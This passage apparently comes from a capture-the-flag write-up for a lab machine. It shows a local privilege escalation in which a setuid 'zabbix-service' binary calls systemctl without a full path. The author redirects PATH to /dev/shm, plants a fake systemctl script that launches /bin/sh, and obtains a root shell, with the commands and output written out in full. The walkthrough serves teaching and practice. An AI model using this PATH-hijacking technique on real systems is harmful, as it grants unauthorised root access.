     zapper@zipper:~/utils$  strings zabbix-service | grep system
    system
    systemctl daemon-reload && systemctl start zabbix-agent
    systemctl stop zabbix-agent
    system@@GLIBC_2.0



That's calling `system` on `systemctl` without a path. If I change the
path and call again, I can replace systemctl with my own thing to run.

Save the old path, and then set the path to `/dev/shm`:



    zapper@zipper:~/utils$ echo $PATH
    /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
    zapper@zipper:~/utils$ export OLD=$PATH
    zapper@zipper:~/utils$ export PATH=/dev/shm



Now if I run `zabbix-service`, it fails:



    zapper@zipper:~/utils$ ./zabbix-service 
    start or stop?: start
    sh: 1: systemctl: not found



Now drop a sh script to run a shell:



    zapper@zipper:~/utils$ /bin/cat /dev/shm/systemctl 
    #!/bin/sh

    /bin/sh



And run again:



    zapper@zipper:~/utils$ ./zabbix-service 
    start or stop?: start
    # id
    /bin/sh: 1: id: not found
    # echo $OLD
    /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
    # export PATH=$OLD
    # id
    uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(zapper)

